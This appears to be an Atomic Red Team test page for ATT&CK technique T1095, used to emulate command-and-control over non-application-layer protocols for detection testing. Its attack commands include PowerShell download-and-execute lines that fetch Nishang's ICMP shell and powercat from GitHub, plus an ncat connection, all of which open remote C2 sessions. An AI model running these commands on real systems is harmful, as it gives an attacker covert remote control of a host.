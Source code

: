 # T1095 - Standard Non-Application Layer Protocol

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1095)

<blockquote>Use of a standard non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive. (Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example. Because ICMP is part of the Internet Protocol Suite, it is required to
be implemented by all IP-compatible hosts; (Citation: Microsoft ICMP) however, it is not as commonly monitored as other
Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)

<br/>

## Atomic Test #1 - ICMP C2

This will attempt to start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | string | 127.0.0.1|

#### Attack Commands: Run with `powershell`!

```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```

<br/>
<br/>

## Atomic Test #2 - Netcat C2

Start C2 Session Using Ncat
To start the listener on a Linux device, type the following:
nc -l -p <port>

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | $env:TEMP&#92;T1095&#92;nmap-7.80&#92;ncat.exe|
| ncat_path | The folder path of ncat.exe | path | $env:TEMP&#92;T1095|

#### Attack Commands: Run with `powershell`!

```powershell
cmd /c #{ncat_exe} #{server_ip} #{server_port}
```

#### Dependencies:  Run with `powerShell`!

##### Description: ncat.exe must be available at specified location (#{ncat_exe})

##### Check Prereq Commands:

```powerShell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powerShell
New-Item -ItemType Directory -Force -Path #{ncat_path} | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```

<br/>
<br/>

## Atomic Test #3 - Powercat C2

Start C2 Session Using Powercat
To start the listener on a Linux device, type the following:
nc -l -p <port>

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|

#### Attack Commands: Run with `powershell`!

```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```

<br/>

